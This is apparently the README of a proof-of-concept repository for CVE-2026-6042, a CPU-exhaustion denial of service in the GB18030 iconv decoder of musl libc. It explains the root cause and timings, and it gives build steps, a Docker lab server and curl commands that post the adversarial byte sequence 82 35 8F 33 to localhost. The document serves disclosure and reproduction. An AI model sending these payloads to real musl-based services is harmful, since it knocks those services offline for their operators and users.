

# CVE-2026-6042: Algorithmic Complexity DoS in musl libc `iconv`

Gap-skipping loops in musl's `iconv` GB18030 4-byte decoder allow a small crafted input to consume disproportionate CPU time. A 40 KB adversarial payload can pin a CPU core for over 40 minutes.

- **Advisory**: <https://www.openwall.com/lists/oss-security/2026/04/09/19>
- **NVD**: <https://nvd.nist.gov/vuln/detail/CVE-2026-6042>

Contrary to what the advisories say, this exploit's attack vector is obviously network, not local. This stems from VulDB not actually understanding the vulnerabilities they assign.

CVSS 3.1 Vector: AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H - 7.5 (High)

## Overview

| Field | Detail |
|---|---|
| **Affected software** | musl libc (`iconv` implementation) |
| **Affected encodings** | GB18030 (4-byte sequences) |
| **Type** | Algorithmic Complexity / Denial of Service |
| **Confirmed versions** | musl 1.2.5 (Alpine 3.21), musl 1.2.6 (built from source) |
| **Likely affected** | All musl versions since GB18030 and UHC/CP949 support were introduced |
| **Attack surface** | Any musl-based service that calls `iconv()` on untrusted input with these encodings |

## Root Cause

The GB18030 4-byte decoder in musl (`src/locale/iconv.c`, roughly lines 434-442) converts a 4-byte input sequence to a linear index and then walks a gap-skipping loop to map that index to a Unicode codepoint. For each decoded character, the inner loop iterates the entire `gb18030[126][190]` table (23,940 entries) to count how many 2-byte-mapped codepoints fall within a sliding range.

The byte sequence `82 35 8F 33` produces a linear index of 19,171, which lands just below the dense CJK Unified Ideographs range (U+4E00-U+9FBD, ~20,902 entries). The gap-skipping loop must then chase through the entire dense block one entry at a time, running ~20,905 outer iterations, each scanning all 23,940 table entries. That is approximately **500 million comparisons per input character**.

Because the cost scales linearly with the number of adversarial characters in the input, and each character independently triggers the full inner loop, the total work is `O(n * k^2)` where `n` is the number of input characters and `k` is the size of the lookup table.

## Impact

Any musl-based system (Alpine Linux, Void Linux, postmarketOS, embedded/container images, etc.) running a service that transcodes GB18030 or EUC-KR from user-supplied input via `iconv()` is vulnerable to denial of service.

Projected times on a single core (measured on Alpine 3.21 / musl 1.2.5):

| Input | Time |
|---|---|
| 1 adversarial char (4 bytes) | ~0.26 s |
| 100 chars (400 bytes) | ~26 s |
| 1,000 chars (4 KB) | ~4.3 min |
| 10,000 chars (40 KB) | ~43 min |

For comparison, 100 benign GB18030 characters decode in microseconds.

## Repository Contents

| File | Description |
|---|---|
| `poc_gb18030_dos.c` | Standalone PoC: times benign vs. adversarial GB18030 decoding via `iconv()` |
| `server.c` | Minimal HTTP server that transcodes POST bodies through `iconv()`, simulating a real attack surface |
| `Dockerfile` | Alpine Linux container image that builds and runs the vulnerable server |
| `test.sh` | End-to-end test script: sends benign and adversarial payloads to the server and compares response times |

## Reproducing

### 1. Standalone PoC (direct `iconv` timing)

Build and run on any musl-based system:

```sh
# On Alpine Linux
apk add gcc musl-dev
gcc -O2 -o poc_gb18030_dos poc_gb18030_dos.c
./poc_gb18030_dos
```

Or via Docker:

```sh
docker run --rm -v "$(pwd)":/work -w /work alpine:latest \
  sh -c "apk add gcc musl-dev && gcc -O2 -o poc_gb18030_dos poc_gb18030_dos.c && ./poc_gb18030_dos"
```

Expected output: benign characters decode in microseconds; a single adversarial character (`82 35 8F 33`) takes ~0.26 seconds.

### 2. End-to-End (HTTP server in Docker)

Build and start the vulnerable server:

```sh
docker build -t cve-2026-6042 .
docker run --rm -p 8080:8080 cve-2026-6042
```

In another terminal, run the test harness:

```sh
./test.sh
```

Or send a payload manually:

```sh
# Benign: 100 chars, should return instantly
printf '\x81\x30\x81\x30%.0s' $(seq 1 100) > /tmp/benign.bin
curl -X POST -H "Content-Type: text/plain; charset=gb18030" \
     --data-binary @/tmp/benign.bin http://localhost:8080/

# Adversarial: just 5 chars, should take >1 second
printf '\x82\x35\x8F\x33%.0s' $(seq 1 5) > /tmp/adversarial.bin
curl -X POST -H "Content-Type: text/plain; charset=gb18030" \
     --data-binary @/tmp/adversarial.bin http://localhost:8080/
```

The `X-Transcode-Time` response header reports the time spent inside `iconv()`.

### End-to-End Demo

The screenshot below shows the linear scaling of adversarial input against the Docker server: 20 chars (80 bytes) takes ~5.2 s, 80 chars (320 bytes) takes ~20.8 s, and 160 chars (640 bytes) takes ~41.5 s.



## Key Byte Sequences

| Sequence | Linear Index | Behaviour |
|---|---|---|
| `81 30 81 30` (benign) | 128 | Low codepoint; gap-skip loop terminates quickly |
| `82 35 8F 33` (adversarial) | 19,171 | Lands just below dense CJK block; triggers ~500M comparisons |
| `82 35 90 30` (adversarial) | ~19,200 | Same region, similar cost |

## Disclaimer

This repository is published for security research and responsible disclosure purposes. The code is provided solely to reproduce and verify CVE-2026-6042. Do not use it against systems you do not own or have explicit authorization to test.
